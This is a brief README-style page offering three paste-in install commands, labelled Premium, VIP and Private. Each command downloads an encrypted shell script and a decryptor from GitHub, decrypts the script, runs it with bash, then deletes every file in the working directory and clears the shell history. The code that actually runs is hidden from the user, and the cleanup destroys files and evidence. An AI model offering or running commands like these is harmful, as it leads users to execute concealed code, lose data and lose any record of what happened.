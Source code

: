 #Premium

`yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_premium.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_premium.sh premdec.sh && bash premdec.sh && rm * && history -c `

#VIP

`yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_vip.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_vip.sh premdec.sh && bash premdec.sh && rm * && history -c `

#Private

`yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_private.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_private.sh premdec.sh && bash premdec.sh && rm * && history -c ` 
